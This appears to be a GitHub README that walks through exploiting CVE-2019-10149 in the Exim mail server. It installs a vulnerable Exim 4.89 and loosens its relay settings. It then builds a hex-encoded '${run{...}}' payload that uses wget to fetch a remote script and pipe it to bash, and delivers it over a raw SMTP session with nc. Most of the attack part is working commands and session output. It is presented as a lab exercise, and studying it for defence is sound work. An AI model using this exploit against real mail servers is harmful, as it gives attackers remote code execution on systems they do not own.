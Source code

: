 # CVE-2019-10149
Instructions for installing a vulnerable version of Exim and its expluatation

# CVE-2019-10149 - Exim 4.87 < 4.91
Tested on Linux Ubuntu 16.04, Exim 4.89

## Exim installation
Download and extract exim version 4.89
	wget https://github.com/Exim/exim/releases/download/exim-4_89/exim-4.89.tar.xz && tar -xvf exim-4.89.tar.xz

Move into the extracted folder
	cd exim-4.89/

Copy and modify required config files
	sed -e 's,^EXIM_USER.*$,EXIM_USER=exim,' Local/Makefile src/EDITME > Local/Makefile
	cp exim_monitor/EDITME Local/eximon.conf

Create exim user and group
	sudo groupadd -g 31 exim 
	sudo useradd -d /dev/null -c "Exim Daemon" -g exim -s /bin/false -u 31 exim

Install dependencies
	sudo apt-get update
	sudo apt-get install -y make build-essential libpcre3-dev libdb-dev libxt-dev libxaw7-dev

Install exim 4.89
	sudo make install

Edit /usr/exim/configure to allow relaying so we can exploit without waiting 7 days
	sudo sed -iz 's/domainlist relay_to_domains =/domainlist relay_to_domains = */' /usr/exim/configure
	sudo sed -i '/hostlist   relay_from_hosts = localhost/c\hostlist   relay_from_hosts = 0.0.0.0' /usr/exim/configure
	sudo sed -i '/require verify = recipient/c\#require verify = recipient' /usr/exim/configure

Run exim as user exim
	sudo -H -u exim /usr/exim/bin/exim -bd -d-receive    
	
## Crafting the exploit
Convert your shell command to hex
	/bin/sh -c “wget https://raw.githubusercontent.com/darsigovrustam/CVE-2019-10149/master/RemoteConnection.sh" -O - | bash
	\x2Fbin\x2Fsh\t-c\t\x22wget\t\https\x3A\x2F\x2Fraw\x2Egithubusercontent\x2Ecom\x2Fdarsigovrustam\x2FCVE\x2D2019\x2D10149\x2Fmaster\x2FRemoteConnection\x2Esh\t-O\t-\t\x7C\tbash\x22\
	
Table for example
	\t-c\ = -c
	\t\= space
	x20 = space
	x7C = |
	x2F = /
	x3A = :
	x2D = -
	x3E = >
	x26 = &
	x22 = "
	x2E = .
	
## Exploit usage
First we use nc to start a connection to the server.
	nc 192.168.0.168 25
 
Once we are connected we say HELO.
	helo localhost
	(Answer: 250 exim Hello localhost [192.168.0.168])

Next, we set the sender address to blank.
	mail from:<>
	(Answer: 250 OK)

Then we set out recipient address with the payload we made earlier by inserting our desired command where the ellipses is rcpt to:<${run{...}}@localhost>.
	rcpt to:<${run{\x2Fbin\x2Fsh\t-c\t\x22wget\t\https\x3A\x2F\x2Fglitchwitch\x2Eio\x2Fpayload\t-O\t-\t\x7C\tbash\x22\}}@localhost>	
	(Answer: 250 Accepted)

And finally We first type DATA, followed by 31 lines, a blank line, and a period.
	DATA
	Received: 1
	Received: 2
	Received: 3
	Received: 4
	Received: 5
	Received: 6
	Received: 7
	Received: 8
	Received: 9
	Received: 10
	Received: 11
	Received: 12
	Received: 13
	Received: 14
	Received: 15
	Received: 16
	Received: 17
	Received: 18
	Received: 19
	Received: 20
	Received: 21
	Received: 22
	Received: 23
	Received: 24
	Received: 25
	Received: 26
	Received: 27
	Received: 28
	Received: 29
	Received: 30
	Received: 31

	.
